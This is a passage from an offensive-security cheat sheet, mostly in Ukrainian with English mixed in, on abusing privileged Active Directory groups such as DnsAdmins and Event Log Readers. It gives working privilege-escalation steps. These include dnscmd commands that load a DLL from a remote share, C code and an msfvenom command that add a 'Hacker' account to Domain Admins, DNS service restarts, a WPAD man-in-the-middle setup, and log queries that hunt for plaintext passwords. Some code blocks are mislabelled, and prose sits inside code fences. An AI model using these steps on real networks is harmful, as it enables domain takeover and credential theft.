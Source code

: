 Члени можуть змусити DNS-сервер завантажити довільну DLL (локально або з віддаленого спільного ресурсу), використовуючи команди такі як:
```bash
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
An attacker could modify the DLL to add a user to the Domain Admins group or execute other commands with SYSTEM privileges. Example DLL modification and msfvenom usage:

# If dnscmd is not installed run from aprivileged PowerShell session:
Install-WindowsFeature -Name RSAT-DNS-Server -IncludeManagementTools
```

```c
// Modify DLL to add user
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

```bash
// Generate DLL with msfvenom
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```
Для завантаження DLL необхідно перезапустити службу DNS (що може вимагати додаткових прав):
```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
Для детальнішої інформації про цей вектор атаки зверніться до ired.team.

#### Mimilib.dll

Також можливо використати mimilib.dll для виконання команд, модифікуючи його для запуску конкретних команд або reverse shells. [Check this post](https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) для додаткової інформації.

### WPAD Record for MitM

DnsAdmins можуть маніпулювати DNS-записами для виконання Man-in-the-Middle (MitM) атак, створюючи WPAD запис після вимкнення global query block list. Інструменти, такі як Responder або Inveigh, можуть бути використані для spoofing та перехоплення мережевого трафіку.

### Event Log Readers
Члени можуть отримувати доступ до журналів подій, потенційно знаходячи чутливу інформацію, таку як plaintext passwords або деталі виконання команд:
```bash
# Get members and search logs for sensitive information
Get-NetGroupMember -Identity "Event Log Readers" -Recurse
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'}
```
## Права Exchange Windows
